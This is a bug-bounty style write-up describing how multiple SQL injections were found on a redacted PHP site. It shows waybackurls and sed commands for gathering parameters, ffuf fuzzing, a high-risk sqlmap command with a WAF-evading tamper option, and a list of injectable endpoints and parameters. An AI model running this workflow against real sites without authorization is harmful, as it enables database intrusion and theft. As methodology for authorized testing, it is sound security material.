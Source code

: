 
ref: https://0xmahmoudjo0.medium.com/how-i-found-multiple-sql-injection-with-ffuf-and-sqlmap-in-a-few-minutes-9c3bb3780e8f

## Enumeration Phase:

`waybackurls https://redacted.org/ | uro | grep ".php" > php-files.txt`

![image](https://user-images.githubusercontent.com/37910997/158051736-c06d205d-2d01-462d-b415-d2876478c4e2.png)

![image](https://user-images.githubusercontent.com/37910997/158051756-67425eaa-82e4-4c06-8cbc-f74e4ae01e25.png)

```
waybackurls => https://github.com/tomnomnom/waybackurls
uro => https://github.com/s0md3v/uro
```

## Getting Parameters:

`cat php-files.txt| grep -i get | sed 's/.*.get//' | sort -u`

![image](https://user-images.githubusercontent.com/37910997/158052135-c2b8525f-4b29-423f-83c0-1ace98f7e9b8.png)

`cut -f1 -d"."`

![image](https://user-images.githubusercontent.com/37910997/158052170-b61c0137-2ca9-4776-bbf5-a8457ee502ef.png)

`sed '/[A-Z]\+/\n&/g'`

![image](https://user-images.githubusercontent.com/37910997/158052233-fe8f5937-c7a9-4dcf-8501-3f0b6816b099.png)

![image](https://user-images.githubusercontent.com/37910997/158052254-af877633-41e5-4571-b806-e06c72ecc01a.png)

`ffuf -w lowercase-parameters.txt -u "https://redacted.org/searchProgressCommitment.php?FUZZ=5"`

use vps LOL

`ffuf -w lowercase-parameters.txt -X POST -d "FUZZ=5" -u "https://redacted.org/searchProgressCommitment.php"`

## Exploitation:

`sqlmap -r req3.txt -p commitment --force-ssl --level 5 --risk 3 --dbms="MYSQL" --hostname --current-user --current-db --dbs --tamper=between --no-cast`

```
--level 5 --> Level of tests to perform.
--risk 3 --> Risk of tests to perform
--dbms --> back-end DBMS value
--no-cast --> to avoid use cast-alike statements during data fetching
--tamper --> to evade filters and WAF’s
"--hostname --current-user --current-db --dbs" --> to retrieve info about the database
```

![image](https://user-images.githubusercontent.com/37910997/158052314-19e18d72-80ef-43c8-96b5-5c0f0cae1c6d.png)

Second SQLI : ws_delComment.php with id parameter
![image](https://user-images.githubusercontent.com/37910997/158052320-29e8ef8e-c747-47c5-ad36-67f383817946.png)

Third SQLI: getTargets.php with goal parameter
![image](https://user-images.githubusercontent.com/37910997/158052324-c88173a4-9e16-47da-b170-54313441f3ac.png)

Fourth One: mailing_lists.php with list parameter
![image](https://user-images.githubusercontent.com/37910997/158052336-bfcf66a5-b69b-4e58-b9c3-539d9e829a40.png)


